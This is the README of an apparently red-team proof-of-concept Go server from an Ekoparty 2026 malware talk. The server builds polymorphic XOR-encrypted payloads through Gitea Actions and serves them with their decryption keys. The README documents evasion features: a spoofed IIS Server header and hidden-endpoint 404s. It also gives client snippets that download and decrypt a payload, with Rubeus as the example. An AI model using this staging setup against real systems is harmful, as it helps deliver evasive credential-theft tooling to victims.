

# Gitea Artifact Delivery Server

Go HTTP service that, on every authenticated request to its download endpoint, triggers a Gitea Actions workflow, waits for it to finish, locates the release it produced, downloads the artifact files, and returns the encrypted binary (`ENCRYPTED_FILE`) together with the base64-encoded decryption key (`DECRYPTION_KEY_FILE`) in a single response.

This is a Proof of Concept presented at Malware Space - Ekoparty 2026: «Polymorphic Payloads with Git artifact-delivery-server.»

> Esta es una Prueba de Concepto presentada en Malware Space - Ekoparty 2026: «Payloads Polimórficos con Git artifact-delivery-server».


## Build

Requires Go 1.26 or later.

```bash
git clone https://github.com/nchgroup/artifact-delivery-server.git
cd artifact-delivery-server
go build -trimpath -ldflags="-s -w -buildid=" .
```

### Build for Linux

```bash
GOOS=linux GOARCH=amd64 go build -trimpath -ldflags="-s -w -buildid=" .
```

### Install with Go

Install the latest published version directly from GitHub:

```bash
go install github.com/nchgroup/artifact-delivery-server@latest
```

The executable is installed in `GOBIN`, or in `GOPATH/bin` when `GOBIN` is not set. Make sure that directory is included in `PATH`.

## Usage

All options accept flags and environment variables. Command-line flags take precedence over environment variables.

```bash
export GITEA_URL="https://gitea.example.com"
export GITEA_TOKEN="xxxxx"
export REPOSITORY_OWNER="admin"
export REPOSITORY_NAME="rubeus"
export WORKFLOW_NAME="build.yml"
export WORKFLOW_REF="master"
export SERVER_TOKEN="a-long-random-token"
export DECRYPTION_KEY_FILE="Rubeus.xor.key"
export ENCRYPTED_FILE="Rubeus.xor"

./artifact-delivery-server
```

### Using a `.env` file

When present, `.env` is loaded automatically from the current working directory:

```dotenv
GITEA_URL="https://gitea.example.com"
GITEA_TOKEN="xxxxx"
REPOSITORY_OWNER="admin"
REPOSITORY_NAME="rubeus"
WORKFLOW_NAME="build.yml"
WORKFLOW_REF="master"
SERVER_TOKEN="a-long-random-token"
DECRYPTION_KEY_FILE="Rubeus.xor.key"
ENCRYPTED_FILE="Rubeus.xor"
```

```bash
./artifact-delivery-server
```

Use `--env-file` or `ENV_FILE` when the file has another name or location:

```bash
./artifact-delivery-server --env-file .env.production

# Equivalent:
ENV_FILE=.env.production ./artifact-delivery-server
```

The parser supports blank lines, comments, `export KEY=value`, and single- or double-quoted values. It does not execute the file as shell code. Existing process environment variables override values from the file, and command-line flags have the highest priority.

The file contains secrets and should not be committed. Add these rules to `.gitignore` before creating it:

```gitignore
.env
.env.*
!.env.example
```

This allows a secret-free `.env.example` template to remain versioned. Command-line flags continue to take precedence over values loaded into the environment.

## Sequence diagram



## Modules

| File | Responsibility |
|---|---|
| `main.go` | Minimal executable entry point, kept at the module root for `go install ...@latest` |
| `internal/app/run.go` | Application assembly, signal handling, and graceful shutdown |
| `internal/config/config.go` | CLI/environment options and validation |
| `internal/config/dotenv.go` | `.env` discovery and loading with `godotenv` |
| `internal/errors/errors.go` | Application errors and HTTP status codes |
| `internal/gitea/client.go` | Hybrid Gitea client: official `gitea.dev/sdk` for API operations and guarded HTTP streaming for artifact downloads |
| `internal/workflow/manager.go` | Triggers workflows, identifies runs by returned ID or polling fallback, and waits for completion |
| `internal/release/manager.go` | Correlates the release and downloads its assets |
| `internal/pipeline/pipeline.go` | Orchestrates workflow → release → download |
| `internal/server/server.go` | Bearer authentication and HTTP endpoint |
| `internal/tlsconfig/tls.go` | Manual TLS, Certbot, ephemeral certificates, and native ACME |
| `internal/logging/logger.go` | Compact console and JSON or text file logging with Zap |

## Client

### curl

```bash
curl --fail-with-body \
  -H "Authorization: Bearer $SERVER_TOKEN" \
  -D key.txt \
  -o artifact.enc \
  https://host:8080/download
```

### Python

```python
import base64, requests

resp = requests.get(
    "https://host:8080/download",
    headers={"Authorization": "Bearer <SERVER_TOKEN>"},
)
resp.raise_for_status()
decryption_key = base64.b64decode(resp.headers["Authorization"])
encrypted_data = resp.content

def xor_decrypt(data: bytes, key: bytes) -> bytes:
    return bytes(data[i] ^ key[i % len(key)] for i in range(len(data)))

binary = xor_decrypt(encrypted_data, decryption_key)
```

## Custom HTML pages

An optional static index page can be served at a configurable route:

```bash
./artifact-delivery-server \
  --index-html-path ./index.html \
  --index-html-route /
```

An optional custom HTML page can also be returned for every unknown route. The response retains the correct `404 Not Found` status:

```bash
./artifact-delivery-server \
  --not-found-html-path ./404.html
```

The custom 404 page applies to unknown routes and to unauthenticated `/download` requests. Missing, malformed, or invalid Bearer tokens return the same `404 Not Found` response so the protected endpoint is not disclosed. Other API errors from `/download` remain JSON responses.

### Default Webpages

This repo includes example default webpages: https://github.com/MichalAFerber/default-web-pages

## Help

Run `./artifact-delivery-server --help` to display the usage information generated by Kong.

```text
$ ./artifact-delivery-server --help
Usage: artifact-delivery-server --gitea-url=STRING --gitea-token=STRING --repository-owner=STRING --repository-name=STRING --workflow-name=STRING --server-token=STRING [flags]

Gitea artifact delivery server

Flags:
  -h, --help                                    Show context-sensitive help.
      --env-file=STRING                         Load configuration from this dotenv file instead of the automatic
                                                .env file; exported environment variables and command-line flags take
                                                precedence ($ENV_FILE).
      --gitea-url=STRING                        Base URL of the Gitea instance ($GITEA_URL).
      --gitea-token=STRING                      Gitea API token ($GITEA_TOKEN).
      --repository-owner=STRING                 Repository owner or organization ($REPOSITORY_OWNER).
      --repository-name=STRING                  Repository name ($REPOSITORY_NAME).
      --workflow-name=STRING                    Workflow file name, for example build.yml ($WORKFLOW_NAME).
      --workflow-ref="main"                     Branch or ref on which to run the workflow ($WORKFLOW_REF).
      --server-host="0.0.0.0"                   Interface on which the server listens ($SERVER_HOST).
      --server-port=8080                        Port on which the server listens ($SERVER_PORT).
      --server-path="/download"                 Path of the download endpoint ($SERVER_PATH).
      --server-token=STRING                     Bearer token required by the download endpoint ($SERVER_TOKEN).
      --server-header="Microsoft-IIS/10.0"      Value returned in the HTTP Server response header ($SERVER_HEADER).
      --decryption-key-file="decryption.key"    Release asset name of the decryption key ($DECRYPTION_KEY_FILE).
      --encrypted-file="artifact.enc"           Release asset name of the encrypted file ($ENCRYPTED_FILE).
      --workflow-timeout=600                    Maximum seconds to wait for a workflow ($WORKFLOW_TIMEOUT).
      --workflow-poll-interval=5                Seconds between workflow status checks ($WORKFLOW_POLL_INTERVAL).
      --gitea-request-timeout=30                Timeout in seconds for each Gitea request ($GITEA_REQUEST_TIMEOUT).
      --index-html-path=STRING                  Optional local index.html file to serve ($INDEX_HTML_PATH).
      --index-html-route="/"                    Route at which the optional index.html is served ($INDEX_HTML_ROUTE).
      --not-found-html-path=STRING              Optional local HTML file returned for unknown routes with status 404
                                                ($NOT_FOUND_HTML_PATH).
      --tls-cert-file=STRING                    TLS certificate chain file. Must be used with --tls-key-file; supports
                                                Certbot fullchain.pem ($TLS_CERT_FILE).
      --tls-key-file=STRING                     TLS private key file. Must be used with --tls-cert-file; supports
                                                Certbot privkey.pem ($TLS_KEY_FILE).
      --auto-cert                               Generate a new self-signed certificate at every startup; mutually
                                                exclusive with certificate files and ACME ($AUTO_CERT).
      --auto-cert-hosts=localhost,127.0.0.1,::1,...
                                                Comma-separated DNS names and IP addresses for auto-cert
                                                ($AUTO_CERT_HOSTS).
      --auto-cert-output="artifact-delivery-server.crt"
                                                File in which auto-cert writes only the public certificate; the private
                                                key remains in memory ($AUTO_CERT_OUTPUT).
      --acme-domains=ACME-DOMAINS,...           Comma-separated public domains for native ACME; mutually exclusive with
                                                certificate files and auto-cert ($ACME_DOMAINS).
      --acme-email=STRING                       Contact email for the ACME account ($ACME_EMAIL).
      --acme-cache-dir=".artifact-delivery-server-acme"
                                                Private cache directory for ACME certificates and account keys
                                                ($ACME_CACHE_DIR).
      --acme-http-address=":80"                 Address for the ACME HTTP-01 challenge server; empty disables HTTP-01
                                                ($ACME_HTTP_ADDRESS).
      --acme-accept-tos                         Accept the ACME certificate authority terms of service; required when
                                                --acme-domains is used ($ACME_ACCEPT_TOS).
      --max-artifact-bytes=104857600            Maximum encrypted artifact size in bytes ($MAX_ARTIFACT_BYTES).
      --max-key-bytes=4096                      Maximum decryption key size in bytes ($MAX_KEY_BYTES).
      --log-file=STRING                         Optional file to which logs are appended ($LOG_FILE).
      --log-file-format="text"                  Format used in the log file. Available formats: text, json
                                                ($LOG_FILE_FORMAT).
      --no-color                                Disable colors in console logs. Any non-empty $NO_COLOR environment
                                                variable also disables them.
```

## HTTP status codes

| Code | Cause |
|---|---|
| `404` | Unknown endpoint, unauthenticated download request, or release/assets not found |
| `405` | Method other than `GET` |
| `500` | Internal error, failed workflow, ambiguity, or artifact validation failure |
| `502` | Error communicating with Gitea |
| `504` | Workflow did not appear or complete before the timeout |

Tested with Gitea 1.27. For a quick Gitea deployment, you can use https://github.com/nchgroup/gitea-deployer

## Caddy reverse proxy

Putting Caddy in front of the artifact delivery server provides two benefits:

- The configured artifact endpoint (`/download` by default) can be exposed on standard ports **80** or **443**.
- With HTTPS enabled, Caddy manages TLS automatically and protects the Bearer token, decryption key, and artifact in transit.

### HTTP only (port 80)

The simplest setup uses HTTP without TLS. Because every route is proxied, it also works when `--server-path` is changed:

```caddyfile
http://vps.example.com {
    reverse_proxy 127.0.0.1:8080
}
```

Run the artifact delivery server with `--server-host 127.0.0.1` so it cannot be accessed directly while Caddy is in front of it.

To run Caddy with the above configuration:

```bash
caddy run --config /path/to/Caddyfile
```

Caddy as a service

```bash
# /etc/caddy/Caddyfile
systemctl enable caddy
systemctl start caddy
```

Only CLI Caddy

```bash
caddy reverse-proxy --from http://vps.example.com --to 127.0.0.1:8080
```

## TLS

TLS is optional. Without TLS options, the server continues to use HTTP for compatibility.

The three TLS modes are mutually exclusive:

### Existing certificate and key

```bash
./artifact-delivery-server \
  --tls-cert-file server.crt \
  --tls-key-file server.key
```

Certbot files can also be used directly. The certificate is reloaded when it changes on disk, without restarting the process:

```bash
sudo certbot certonly --standalone -d artifacts.example.com

sudo ./artifact-delivery-server \
  --server-host 0.0.0.0 \
  --server-port 443 \
  --tls-cert-file /etc/letsencrypt/live/artifacts.example.com/fullchain.pem \
  --tls-key-file /etc/letsencrypt/live/artifacts.example.com/privkey.pem
```

`certbot --standalone` must temporarily bind to port 80 during issuance and renewal. You can use hooks to stop and restart the service, a DNS plugin, or a reverse proxy that handles the challenge. When Certbot replaces `fullchain.pem` and `privkey.pem`, new TLS connections automatically receive the renewed certificate.

To create a certificate manually with OpenSSL:

```bash
openssl req -x509 -newkey rsa:3072 -sha256 -nodes -days 365 \
  -keyout server.key -out server.crt \
  -subj "/CN=artifacts.example.com" \
  -addext "subjectAltName=DNS:artifacts.example.com,IP:127.0.0.1"

./artifact-delivery-server --tls-cert-file server.crt --tls-key-file server.key
```

### Local `auto-cert`

OpenSSL is not required. Go generates a **new self-signed ECDSA P-256 certificate on every startup**. The private key remains only in memory; only the public certificate specified by `AUTO_CERT_OUTPUT` is written to disk.

```bash
./artifact-delivery-server \
  --auto-cert \
  --auto-cert-hosts localhost,127.0.0.1 \
  --auto-cert-output artifact-delivery-server.crt

curl --cacert artifact-delivery-server.crt \
  -H "Authorization: Bearer $SERVER_TOKEN" \
  -o artifact.enc https://localhost:8080/download
```

Because the certificate changes on every startup, clients must retrieve and trust the newly generated `.crt` file again.

### Native ACME

The binary can also issue and renew public certificates without Certbot by using ACME/Let's Encrypt:

```bash
sudo ./artifact-delivery-server \
  --server-host 0.0.0.0 \
  --server-port 443 \
  --acme-domains artifacts.example.com \
  --acme-email admin@example.com \
  --acme-cache-dir /var/lib/artifact-delivery-server/acme \
  --acme-http-address :80 \
  --acme-accept-tos
```

The domain must resolve to the server, and public ports 80 and 443 must be reachable. Unlike `auto-cert`, ACME must retain its private cache to renew the certificate and account; the directory is protected with mode `0700`.

## Project structure

```
artifact-delivery-server
├── README.md
├── go.mod
├── go.sum
├── internal
│   ├── app
│   │   └── run.go
│   ├── config
│   │   ├── config.go
│   │   └── dotenv.go
│   ├── errors
│   │   └── errors.go
│   ├── gitea
│   │   └── client.go
│   ├── logging
│   │   └── logger.go
│   ├── pipeline
│   │   └── pipeline.go
│   ├── release
│   │   └── manager.go
│   ├── server
│   │   └── server.go
│   ├── tlsconfig
│   │   └── tls.go
│   └── workflow
│       └── manager.go
├── main.go
└── resources
    ├── gitea-action-xor
    │   ├── README.md
    │   ├── action.yml
    │   └── index.js
    ├── gitea-rubeus-workflow
    │   └── build.yml
    └── loader-psh
        └── Loader.ps1
```

## Author
- cyberf
